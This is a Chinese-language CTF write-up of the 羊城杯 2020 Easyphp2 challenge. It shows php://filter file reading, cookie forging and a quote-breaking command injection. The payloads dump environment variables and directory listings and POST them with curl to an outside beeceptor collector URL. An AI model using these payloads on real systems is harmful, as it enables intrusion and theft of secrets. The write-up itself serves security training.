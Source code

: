 # \[羊城杯 2020]Easyphp2

## \[羊城杯 2020]Easyphp2

## 考点

* `php://filter`伪协议使用`convert.quoted-printable-encode`读取文件
* `php://filter`伪协议使用`convert.iconv.utf-8.utf-16be`或者`utf-16`读取文件
* 命令执行闭合

## wp

http://de728f9e-3e26-4948-9d38-37eba5bbd65e.node4.buuoj.cn:81/?file=GWHT.php 试试文件包含

`php://filter/read=convert.quoted-printable-encode/resource=GWHT.php`

&#x20;得到一部分代码

```php
<?php
    ini_set('max_execution_time', 5);

    if ($_COOKIE['pass'] !== getenv('PASS')) {
        setcookie('pass', 'PASS');
        die('wrong');

    if (isset($_GET["count"])) {
        $count = $_GET["count"];
        if(preg_match('/;|base64|rot13|base32|base16|<\?php|#/i', $count)){
        	die('hacker!');
        }
        echo "shell".exec('printf \'' . $count . '\' | wc -c');
```

没办法绕过第一个if，继续找信息，访问`robots.txt`提示`/?file=check.php`

读取check.php

```php
<?php
$pass = "GWHT";
// Cookie password.
echo "Here is nothing, isn't it ?";
header('Location: /');
```

得到`PASS`是`GWHT`，修改cookie，接下来是命令执行

执行的语句是`printf 'payload' | wc -c`，闭合语句就行了payload是`'&&id||'`

到[https://beeceptor.com](https://beeceptor.com/)开个链接接收数据

payload

`http://de728f9e-3e26-4948-9d38-37eba5bbd65e.node4.buuoj.cn:81/GWHT.php?file=GWHT.php&count=`<mark style="color:orange;">`'%26%26echo%20env%20>%20/tmp/1.txt%26%26curl -v -X POST 'https://peri0d.free.beeceptor.com/my/api/' -d @/tmp/1.txt||'`</mark>

本题读取文件还可以用如下方式

```
两次URL编码
?file=php://filter/convert.%25%36%32ase64-encode/resource=GWHT.php
utf-16编码
?file=php://filter/read=convert.iconv.utf-8.utf-16be/resource=GWHT.php
```

## 小结

1. curl可用时可以使用如下方式命令执行，我称之为curl命令执行外带

```
echo `ls /` > 1.txt;curl -v -X POST 'https://peri0d.free.beeceptor.com/my/api/' -d @1.txt
```

